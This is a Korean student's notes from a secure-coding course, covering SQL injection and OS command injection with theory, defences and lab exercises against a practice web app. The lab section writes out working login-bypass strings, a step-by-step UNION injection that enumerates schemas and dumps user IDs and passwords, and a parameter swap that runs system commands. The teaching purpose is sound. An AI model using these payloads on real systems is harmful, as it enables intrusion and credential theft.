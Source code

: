 # SecureCoding-Study
시큐어코딩 수업
실습, 이론
C:\SecureCoding
# 11주차
# SQL 삽입공격
### -이론-
동적 쿼리 SQL문 사용할때 
외부 입력값에 따라 쿼리문에 구조가 바뀌는 취약점을 이용
-피해유형
1. DB 정보 열람 및 추가 , 삭제 가능
2. 프로시저를 통해 운영체제 명령어 수행
3. 웹 애플리케이션을 조정해 다른 시스템을 공격
4. 불법 로그인
- 공격의 유형
1. Form Based SQL 삽입
 웹사이트페이지 Form에서 로그인할때 칸에
  sql문으로 사용할수 있는 특수문자 이용히여 공격
2. UNION SQL 삽임
 웹애플리케이션이 조회결과를 리스트로 출력하는 화면을 가진경우
- 방어
1. 정적쿼리를 사용 
PreparedStatement 을 사용 정적쿼리 방식으로 미리만들어진 쿼리문을
활용 외부입력값은 set메소드를 입력 -> 쿼리 구조가 변조 방지
2. 동적쿼리일때
특수문자 및 SQL 명령문으로 사용되는 키워드 철저히 제거

### -실습-
실습환경: 1. 웹 애플리케이션 서버는 사용자의 입력을 받아
            동적 쿼리에 사용하고 있음
         2. 화이트리스트 기반의 필터링을 전혀 사용하지 않음
         ---> sql삽입공격에 매우 취약함
         ID :test PW:test 
 
1. 비정상적인 입력 값으로 인증 우회가능성 확인
1) ID :'or'a-'='a  PW :  ID :'or'a-'='a
 --> HTTP Status 500 Error 발생
 too many results 구문이 있다 
 -> 정상적인 상황보다 많은정보를 요청하여 서버가표시할수없음
 항상참값이 봔환되어 모든테이블의 정보를 확인하라는 명령으로 변경되었다.
 
2) ID:admin'#  PW:aaa 
 --> 관리자 모드로 로그인
 
 2. UNION SQL 삽입공격 실습
  :UNION SQL 삽입 취약점을 이용하여 단계적으로 보안 자산의 정보추출
   공격자가 원하는 중요 정보 자산을 탈취하는 공격 과정
  시큐어코딩테스트-> SQL 인젝션 -> MYSQL 인젝션 -> ID:admin
 
 1) ID:admin'union select 1,2,3,4# --> DB에서 사용하는 컬럼의개수 확인 ->에러
 2) 순차적으로 컬럼을 높여감 ID:admin'union select 1,2,3,4,5# -> 에러
 3) ID:admin'union select 1,2,3,4,5,6# --> 정보가 나타남
   -> 따라서 DB컬럼개수:6개 -> 향후 공격에서 컬럼6개로 맞춰주고,1~4번 컬럼에
   악성 쿼리문을 삽입하면 정보 유출가능성이 있다.
 4) DBMS버전 확인 ID:admin'union select version(),2,3,4,5,6#
  -> Union select와 버전 키워드를 사용함으로써 해당 DBMS의 버전정보를 얻어올수있음
 5) 공격대상 DM목록 확인 
  -> ID:admin'union select schema_name,2,3,4,5,6 from     
     information_schema.schemata#
 6) 특정 DB선정후 ,테이블 목록확인
  -> ID:admin'union select group_concat(table_name),2,3,4,5,6 from
     information_schema.tables where table_shema=database()#
 7) 테이블의 컬럼 명 확인
   -> ID:admin'union select group_concat(column_name),2,3,4,5,6 from
     information_schema.columns where table_name='board_member'#
 8) 컬럼 데이터 추출
   -> ID:admin'union select idx,userid,userpw,username,5,6
      from board_member#
 
 학생활동 --> 기말대체 과제일수도있다.
 1. SQL삽입공격의실제사례를분석해본다
 2. SQL 삽입공격의유형을조사해본다
 3. 보안정보공유체계(CVE, CWE, NVD)에서SQL 삽입공격을찾아본다.
 4. SQL 삽입공격유형별방어대책에대해조사해본다  --> 디테일하게 기말대체는 보지않는다.
https://cwe.mitre.org/data/definitions/1350.html
https://cwe.mitre.org/data/definitions/89.html
https://www.cvedetails.com/cve/CVE-2021-27928/
https://mariadb.com/kb/en/security/
들어가서 cwe list -> latest version -> 네랴서 cwe top25
아니면 구글에 ex) sql-injection cve -> detail 들어가기 
         

# 12주차
# 운영체제 명령어 삽입
개요 : 적절한 검증 절차를 거치지 않은 웹페이지나 웹서버에서 사용자가 입력값이
      명령어의 일부 또는 전부로 구성되어 실행되는 경우 의도하지 않은 시스템
      명령어가 실행되어 부적절하게 권한이 변경되거나 시스템 동작에 악영향을 미친다.
      
<공격>
 프록시 파로스 키고  request 잡고 시큐어코딩테스트 -> 명령어 인젝션
 data=dir 을 받으면 웹서버에서는 자신의 디렉토리정보를 윈도우 커맨드로 날린다음
 화면에 나타나졋다. 이것을 예측해 data=notepad 로 변경하면 메모장이 켜진다.
 
 <방어>
 data=type 을 바로 받아서 커맨드를 바로 사용하는 것이 아니라
 index나 정수 값을 받아서 그것에 매칭되는 커맨드를 배열에 꺼내 사용하면
 약속된 커맨드만 서버쪽으로 전달할수있다.
 
 실습: openeg->src-> testcontroller.java
   -> #Command 인젝션으로 가서 -> 코드 수정
   
 
      
 
      
      
         
         
         
         
         
         
         
         
         
         
         
